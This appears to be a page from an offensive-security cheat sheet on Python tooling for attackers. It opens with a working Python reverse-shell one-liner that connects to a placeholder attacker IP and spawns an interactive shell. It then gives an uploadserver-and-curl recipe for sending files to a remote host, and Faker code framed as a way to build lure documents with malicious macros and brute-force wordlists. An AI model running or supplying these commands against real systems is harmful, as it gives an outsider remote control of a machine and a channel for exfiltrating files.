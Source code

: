 ## Python Reverse Shell

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Python Basic File Upload

```python
# Listen to files
python3 -m pip install --user uploadserver
python3 -m uploadserver
# With basic auth: 
# python3 -m uploadserver --basic-auth hello:world

# Send a file
curl -X POST http://HOST/upload -H -F 'files=@file.txt' 
# With basic auth:
# curl -X POST http://HOST/upload -H -F 'files=@file.txt' -u hello:world
```

## Generating HoneyDocs with Python

Python's Faker module can be utilized to create honeydocs of PII with malicious macros, wordlists, emails for login brute-forcing, and much more.

```python
import pandas as pd
from faker import Faker

# Create a Faker object
fake = Faker()

# Options to data:
fake.name()
fake.text()
fake.address()
fake.email()
fake.date()
fake.country()
fake.phone_number()
fake.random_number(digits=5)

# Example DataFrame
faker_df = pd.DataFrame({'date':[fake.date() for i in range(10)],
                         'name':[fake.name() for i in range(10)],
                         'email':[fake.email() for i in range(10)],
                         'text':[fake.text() for i in range(10)]})
faker_df
```
